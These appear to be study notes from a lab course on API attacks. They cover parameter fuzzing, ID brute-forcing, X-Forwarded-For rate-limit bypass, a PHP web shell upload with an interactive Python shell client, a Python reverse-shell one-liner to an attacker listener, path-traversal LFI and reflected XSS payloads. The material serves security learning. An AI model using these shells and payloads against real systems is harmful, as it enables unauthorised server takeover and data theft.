





- [API Attacks](#api-attacks)
  - [Information Disclosure](#information-disclosure)
    - [Information Disclosure through SQLi](#information-disclosure-through-sqli)
  - [Arbitrary File Upload](#arbitrary-file-upload)
    - [PHP File Upload via API to RCE](#php-file-upload-via-api-to-rce)
  - [LFI](#lfi)
  - [XSS](#xss)

---

# API Attacks

## Information Disclosure

Maybe there is a parameter that will reveal the API's functionality. Fuzzing:

```bash
d41y@htb[/htb]$ ffuf -w "/home/htb-acxxxxx/Desktop/Useful Repos/SecLists/Discovery/Web-Content/burp-parameter-names.txt" -u 'http://<TARGET IP>:3003/?FUZZ=test_value'

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://<TARGET IP>:3003/?FUZZ=test_value
 :: Wordlist         : FUZZ: /home/htb-acxxxxx/Desktop/Useful Repos/SecLists/Discovery/Web-Content/burp-parameter-names.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

:: Progress: [40/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errorpassword                [Status: 200, Size: 19, Words: 4, Lines: 1]
:: Progress: [40/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errorurl                     [Status: 200, Size: 19, Words: 4, Lines: 1]
:: Progress: [41/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errorc                       [Status: 200, Size: 19, Words: 4, Lines: 1]
:: Progress: [42/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errorid                      [Status: 200, Size: 38, Words: 7, Lines: 1]
:: Progress: [43/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Erroremail                   [Status: 200, Size: 19, Words: 4, Lines: 1]
:: Progress: [44/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errortype                    [Status: 200, Size: 19, Words: 4, Lines: 1]
:: Progress: [45/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errorusername                [Status: 200, Size: 19, Words: 4, Lines: 1]
:: Progress: [46/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errorq                       [Status: 200, Size: 19, Words: 4, Lines: 1]
:: Progress: [47/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errortitle                   [Status: 200, Size: 19, Words: 4, Lines: 1]
:: Progress: [48/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errordata                    [Status: 200, Size: 19, Words: 4, Lines: 1]
:: Progress: [49/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errordescription             [Status: 200, Size: 19, Words: 4, Lines: 1]
:: Progress: [50/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errorfile                    [Status: 200, Size: 19, Words: 4, Lines: 1]
:: Progress: [51/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errormode                    [Status: 200, Size: 19, Words: 4, Lines: 1]
:: Progress: [52/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors                       [Status: 200, Size: 19, Words: 4, Lines: 1]
:: Progress: [53/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errororder                   [Status: 200, Size: 19, Words: 4, Lines: 1]
:: Progress: [54/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errorcode                    [Status: 200, Size: 19, Words: 4, Lines: 1]
:: Progress: [55/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errorlang                    [Status: 200, Size: 19, Words: 4, Lines: 1]
```

After filtering:

```bash
d41y@htb[/htb]$ ffuf -w "/home/htb-acxxxxx/Desktop/Useful Repos/SecLists/Discovery/Web-Content/burp-parameter-names.txt" -u 'http://<TARGET IP>:3003/?FUZZ=test_value' -fs 19

 
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://<TARGET IP>:3003/?FUZZ=test_value
 :: Wordlist         : FUZZ: /home/htb-acxxxxx/Desktop/Useful Repos/SecLists/Discovery/Web-Content/burp-parameter-names.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 19
________________________________________________

:: Progress: [40/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 id                      [Status: 200, Size: 38, Words: 7, Lines: 1]
:: Progress: [57/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 
:: Progress: [187/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0
:: Progress: [375/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0
:: Progress: [567/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0
:: Progress: [755/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0
:: Progress: [952/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0
:: Progress: [1160/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 
:: Progress: [1368/2588] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 
:: Progress: [1573/2588] :: Job [1/1] :: 1720 req/sec :: Duration: [0:00:01] :: Error
:: Progress: [1752/2588] :: Job [1/1] :: 1437 req/sec :: Duration: [0:00:01] :: Error
:: Progress: [1947/2588] :: Job [1/1] :: 1625 req/sec :: Duration: [0:00:01] :: Error
:: Progress: [2170/2588] :: Job [1/1] :: 1777 req/sec :: Duration: [0:00:01] :: Error
:: Progress: [2356/2588] :: Job [1/1] :: 1435 req/sec :: Duration: [0:00:01] :: Error
:: Progress: [2567/2588] :: Job [1/1] :: 2103 req/sec :: Duration: [0:00:01] :: Error
:: Progress: [2588/2588] :: Job [1/1] :: 2120 req/sec :: Duration: [0:00:01] :: Error
:: Progress: [2588/2588] :: Job [1/1] :: 2120 req/sec :: Duration: [0:00:02] :: Errors: 0 ::
```

Looks like _id_ is a valid parameter. Checking further:

```bash
d41y@htb[/htb]$ curl http://<TARGET IP>:3003/?id=1
[{"id":"1","username":"admin","position":"1"}]
```

Possible Python bruteforcing script:

```python
import requests, sys

def brute():
    try:
        value = range(10000)
        for val in value:
            url = sys.argv[1]
            r = requests.get(url + '/?id='+str(val))
            if "position" in r.text:
                print("Number found!", val)
                print(r.text)
    except IndexError:
        print("Enter a URL E.g.: http://<TARGET IP>:3003/")

brute()
```

Result can look like this:

```bash
d41y@htb[/htb]$ python3 brute_api.py http://<TARGET IP>:3003
Number found! 1
[{"id":"1","username":"admin","position":"1"}]
Number found! 2
[{"id":"2","username":"HTB-User-John","position":"2"}]
...
```

If there is a rate limiting you can try bypassing it through headers such as X-Forward-For, X-Forwarded-IP, etc., or use proxies. These headers have to be compared with an IP most of the time. Example:

```php
<?php
$whitelist = array("127.0.0.1", "1.3.3.7");
if(!(in_array($_SERVER['HTTP_X_FORWARDED_FOR'], $whitelist)))
{
    header("HTTP/1.1 401 Unauthorized");
}
else
{
  print("Hello Developer team! As you know, we are working on building a way for users to see website pages in real pages but behind our own Proxies!");
}
```

### Information Disclosure through SQLi

SQLi vulns can affect APIs as well. That _id_ parameter looks interesting.

## Arbitrary File Upload

... enable attackers to upload malicious files, execute arbitrary commands on the back-end server, and even take control over the entire server.

### PHP File Upload via API to RCE

Browsing the app, an anonymous file uploading functionality sticks out.



Create the below file and try to upload it via the available functionality:

```php
<?php if(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd']); system($cmd); die; }?>
```

The above allows you to append the parameter _cmd_ to your request, which will be executed using _system()_. This is if you can determine its location, if the file will be rendered successfully and if no PHP function restrictions exist.



- it was successfully uploaded via a POST request to ```/api/upload```
- content type has been automatically set to ```application/x-php``, which means there is no protection in place
- uploading a file with a _.php_ extension is also allowed 
- you also receive the location where your file is stored, ```http://<TARGET IP>:3001/uploads/backdoor.php```

You can easily obtain a shell with the following Python script:

```python
import argparse, time, requests, os # imports four modules argparse (used for system arguments), time (used for time), requests (used for HTTP/HTTPs Requests), os (used for operating system commands)
parser = argparse.ArgumentParser(description="Interactive Web Shell for PoCs") # generates a variable called parser and uses argparse to create a description
parser.add_argument("-t", "--target", help="Specify the target host E.g. http://<TARGET IP>:3001/uploads/backdoor.php", required=True) # specifies flags such as -t for a target with a help and required option being true
parser.add_argument("-p", "--payload", help="Specify the reverse shell payload E.g. a python3 reverse shell. IP and Port required in the payload") # similar to above
parser.add_argument("-o", "--option", help="Interactive Web Shell with loop usage: python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes") # similar to above
args = parser.parse_args() # defines args as a variable holding the values of the above arguments so we can do args.option for example.
if args.target == None and args.payload == None: # checks if args.target (the url of the target) and the payload is blank if so it'll show the help menu
    parser.print_help() # shows help menu
elif args.target and args.payload: # elif (if they both have values do some action)
    print(requests.get(args.target+"/?cmd="+args.payload).text) ## sends the request with a GET method with the targets URL appends the /?cmd= param and the payload and then prints out the value using .text because we're already sending it within the print() function
if args.target and args.option == "yes": # if the target option is set and args.option is set to yes (for a full interactive shell)
    os.system("clear") # clear the screen (linux)
    while True: # starts a while loop (never ending loop)
        try: # try statement
            cmd = input("$ ") # defines a cmd variable for an input() function which our user will enter
            print(requests.get(args.target+"/?cmd="+cmd).text) # same as above except with our input() function value
            time.sleep(0.3) # waits 0.3 seconds during each request
        except requests.exceptions.InvalidSchema: # error handling
            print("Invalid URL Schema: http:// or https://")
        except requests.exceptions.ConnectionError: # error handling
            print("URL is invalid")
```

Usage:

```bash
d41y@htb[/htb]$ python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes
$ id
uid=0(root) gid=0(root) groups=0(root)
```

To obtain a more functional (_reverse_) shell, execute the below inside the shell gained through the Pyhton script above:

```bash
d41y@htb[/htb]$ python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes
$ python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<VPN/TUN Adapter IP>",<LISTENER PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

## LFI

... allows an attacker to read internal files and sometimes execute code on the server via a series of ways.

Suppose you are assessing such a vulnerable API.

First, interact with it:

```bash
d41y@htb[/htb]$ curl http://<TARGET IP>:3000/api
{"status":"UP"}
```

Try fuzzing common API endpoints:

```bash
d41y@htb[/htb]$ ffuf -w "/home/htb-acxxxxx/Desktop/Useful Repos/SecLists/Discovery/Web-Content/common-api-endpoints-mazen160.txt" -u 'http://<TARGET IP>:3000/api/FUZZ'

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://<TARGET IP>:3000/api/FUZZ
 :: Wordlist         : FUZZ: /home/htb-acxxxxx/Desktop/Useful Repos/SecLists/Discovery/Web-Content/common-api-endpoints-mazen160.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

:: Progress: [40/174] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors
download                [Status: 200, Size: 71, Words: 5, Lines: 1]
:: Progress: [87/174] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors:: 
Progress: [174/174] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Error:: 
Progress: [174/174] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```

Looks like ```/api/download``` is a valid API endpoint:

```bash
d41y@htb[/htb]$ curl http://<TARGET IP>:3000/api/download
{"success":false,"error":"Input the filename via /download/<filename>"}
```

You need to specify a file, but you don't have any knowledge of stored files on their naming scheme. You can try mounting a LFI attack:

```bash
d41y@htb[/htb]$ curl "http://<TARGET IP>:3000/api/download/..%2f..%2f..%2f..%2fetc%2fhosts"
127.0.0.1 localhost
127.0.1.1 nix01-websvc

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

## XSS

... may allow an attacker to execute arbitrary JS code within the target's browser and result in complete web app compromise if chained together with other vulns.

First, interact with it through the browser by requesting the below:



```test_value``` is reflected in the response.

If you enter:

```javascript
<script>alert(document.domain)</script>
```

... it leads to:



It looks like the app is encoding the submitted payload. You can try URL-encoding your payload once and submitting it again:

```javascript
%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E
```



Now your submitted JS payload is evaluated successfully.

